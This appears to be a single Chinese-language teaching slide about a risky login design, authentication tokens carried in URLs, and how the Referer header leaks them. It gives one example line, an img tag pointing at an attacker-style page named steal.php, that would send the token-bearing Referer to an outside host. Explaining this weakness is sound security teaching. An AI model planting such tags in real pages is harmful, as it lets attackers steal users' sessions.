

# 攻击
危险的身份认证方式
url authentication token
每次登录生成一个唯一的不可预测的authentication token
token附加在每个url里
如何盗取用户身份认证？
referer
eg: <img src=http://hackomega.com/steal.php />